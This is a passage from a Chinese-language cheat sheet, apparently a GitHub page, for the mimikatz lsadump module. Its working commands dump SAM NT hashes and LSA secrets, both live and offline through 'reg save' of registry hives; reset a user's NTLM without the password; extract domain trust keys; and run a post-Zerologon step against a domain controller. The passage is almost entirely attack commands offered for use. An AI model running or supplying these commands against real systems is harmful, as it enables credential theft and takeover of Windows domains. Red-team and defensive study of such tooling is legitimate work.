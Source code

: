 ```

```
mimikatz # lsadump::postzerologon /target:192.168.0.10 /account:dc$
```

## rpdata

检索私人数据

```
mimikatz # lsadump::RpData
```

## sam

转储本地安全账户管理器（SAM）NT的哈希值

```
mimikatz # lsadump::sam
```

**离线转存**

cmd下
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
```

执行离线转存
```
mimikatz # lsadump::sam /system:system.hive /sam:sam.hive
```

## secrets
可以用来从注册表中转储LSA的secrets。它检索SysKey来解密Secrets条目
```
mimikatz # lsadump::secrets
```

**离线转存**

cmd下
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\security security.hive
```

执行离线转存
```
mimikatz # lsadump::secrets /system:system.hive /sam:security.hive
```

## setntlm
可以用来在不知道用户当前密码的情况下执行密码重置。在活动目录访问控制（ACL）滥用情况下，它可能很有用
```
mimikatz # lsadump::setntlm /user:optimus /password:VeryStrongPass1! /server:dc.hacklab.local
```

## trust

dump出域和林的信任秘钥
```
mimikatz # lsadump::trust /patch
```

## zerologon
```